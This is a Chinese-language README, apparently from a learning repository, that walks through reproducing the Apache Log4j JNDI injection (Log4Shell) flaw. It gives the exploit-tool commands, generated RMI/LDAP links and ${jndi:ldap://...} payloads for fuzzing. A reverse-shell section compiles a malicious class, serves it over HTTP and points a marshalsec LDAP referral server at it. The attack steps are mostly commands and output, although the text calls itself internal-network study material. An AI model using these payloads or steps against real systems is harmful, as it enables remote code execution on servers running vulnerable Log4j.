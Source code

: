 # 以下都是内网学习打的，仅供学习
poc来自 [https://github.com/tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)
## Apache-Log4j的几种复现方式
## 1、使用./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
vps IP 假设为 10.10.10.10
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 10.10.10.10`
```
[root@VM_0_16_centos ~]# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xx.24b5010c.dns.1433.eu.org" -A 10.10.10.10
[ADDRESS] >> 10.10.10.10
[COMMAND] >> ping xx.24b5010c.dns.1433.eu.org
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.10.10:1099/1ovanh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/kavkt9
ldap://10.10.10.10:1389/kavkt9
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/m5m8wo
ldap://10.10.10.10:1389/m5m8wo
```
然后fuzz `${jndi:ldap://10.10.10.10:1389/kavkt9}` 或者 `${jndi:ldap://10.10.10.10:1389/m5m8wo} `


## 2、反弹shell

```
git clone https://github.com/daty2141/Apache-Log4j-Learning.git
cd Apache-Log4j-Learning/src
javac Log4jRCE.java 
python -m http.server --bind 127.0.0.1 8888 
```

```
cd tools
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
```


最后运行 Hack.java
![](img/2.png)

效果是jdni上收到请求消息
`Send LDAP reference result for dd redirecting to http://127.0.0.1:8888/Log4jRCE.class`


httpserver上未看到请求记录。


![](img/3.png)


# 以上都是内网学习打的，仅供学习